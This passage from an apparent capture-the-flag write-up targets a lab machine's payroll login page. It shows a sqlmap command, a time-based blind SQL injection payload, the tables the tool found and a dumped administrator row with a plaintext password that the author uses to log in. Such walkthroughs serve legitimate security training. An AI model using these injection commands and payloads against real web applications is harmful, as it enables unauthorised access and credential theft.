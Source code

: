 * Interestingly, there is a `/database` folder
* Let's see if the webpage is SQLi vulnerable before we try to brute force the login
* Copy the login POST request as cCURL

```sh
sqlmap  'http://preprod-payroll.trick.htb/ajax.php?action=login' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' <SNIP> --batch --dbs

<SNIP>

---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1110 FROM (SELECT(SLEEP(5)))BWTk) AND 'kbsu'='kbsu&password=admin
---

[*] information_schema
[*] payroll_db
```

```sh
[11 tables]
+---------------------+
| position            |
| allowances          |
| attendance          |
| deductions          |
| department          |
| employee            |
| employee_allowances |
| employee_deductions |
| payroll             |
| payroll_items       |
| users               |
+---------------------+
```

```sh
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name          | type | address | contact | password              | username   |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrator | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+---------------+------+---------+---------+-----------------------+------------+

```

* We can now log into the web application and explore the admin panel!

![](rms.png)

* After enumerating this for a while, we could not find any vulnerabilities that would help us for a shell or similar
* So, if we take a look at the subdomain `preprod-payroll.trick.htb` we see that it starts with `preprod-` followed by a name, in this case `payroll`
* So lets try to find more subdomains matching this pattern
